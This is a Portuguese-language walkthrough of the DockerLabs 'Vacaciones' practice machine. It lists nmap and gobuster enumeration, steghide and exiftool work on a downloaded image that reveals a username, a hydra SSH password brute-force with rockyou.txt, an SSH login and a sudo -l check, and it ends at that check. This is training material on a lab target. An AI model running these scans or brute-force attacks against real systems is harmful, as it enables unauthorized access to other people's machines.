
DockerLabs Vacaciones
Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.

COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -sS -sV -sC --open -p- -T5 -n -Pn
Verificando as portas podemos ver que temos duas postas abertas a 22 e a 80.

PORTAS ABERTA:
22/tcp open ssh OpenSSH 9.2p1 Debian
80/tcp open http Apache httpd 2.4.59 ((Debian))

BUSCAR POR PASTAS OCULTAS COM GOBUSTER
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt -x txt,php,html


VAMOS NAVEGAR NA PASTA QUE O GOBUSTER ACHO INDEX.HTML http://172.17.0.2/index.html

PORTA 80: agora vamos no navegador web e digitar o ip da maquina “vitima”. http://172.17.0.2/#skills
vamos baixar a imagem com o comando wget http://172.17.0.2/imagen.jpeg

proximo passo extrair a imagem com a ferramenta steghide extract -sf imagen.jpeg


vamos usar outra ferramenta para buscar mais informações exiftool imagen.jpeg.
ferramenta para buscar metadados

achou um usuário: borazuwarah
vamos usar o hydra para um ataque de força bruta no ssh.
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2:22 -t 4 -w 5

ssh borazuwarah@172.17.0.2

escalação de privilégios comando sudo -l


{kind=link}